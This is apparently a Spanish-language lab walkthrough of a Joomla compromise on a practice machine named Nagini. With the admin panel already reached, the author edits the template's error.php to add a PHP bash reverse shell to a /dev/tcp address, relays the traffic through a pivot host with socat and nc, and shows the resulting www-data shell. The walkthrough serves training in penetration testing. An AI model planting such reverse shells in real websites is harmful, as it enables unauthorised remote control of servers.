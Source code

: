 ```url
http://10.10.0.129/joomla/administrator/
```

![captura](./Imágenes/web_6.png)  

![captura](./Imágenes/web_7.png)  

Explicación: logramos acceder como usuario administrador al panel de administración del servicio web objetivo

Acción: para vulnerar un Joomla, lo que se suele hacer es editar un archivo `.php` del apartado  `extensiones->templates->templates`. Añadimos dentro del archivo una reverse shell, y cuando se ejecute algún error (ya que modificamos el archivo de `error.php`) recibiremos una shell

```php
system("bash -c 'bash -i >& /dev/tcp/10.10.0.128/1234 0>&1'");
```

![captura](./Imágenes/web_8.png)  

![captura](./Imágenes/web_9.png)  

Acción: 

```bash
nc -lvnp 443
```

**Importante:** para que esto funcione, debido al pivoting, necesitamos usar `socat` desde la máquina Aragog, para que todo el tráfico que llegue a él sea redirigido a nuestra máquina atacante

Acción: en Aragog

```bash
./socat TCP-LISTEN:1234,fork TCP:192.168.1.66:443
```

Acción: forzamos un error para recibir la shell

```url
http://10.10.0.129/joomla/index.php/<>
```

Resultado:

```bash
[sudo] contraseña para metahumo: 
listening on [any] 443 ...
connect to [192.168.1.66] from (UNKNOWN) [192.168.1.82] 40818
bash: cannot set terminal process group (732): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Nagini:/var/www/html/joomla$ whoami
```

Explicación: hemos logrado vulnerar al sistema obteniendo una shell remota del sistema en nuestra máquina atacante


---
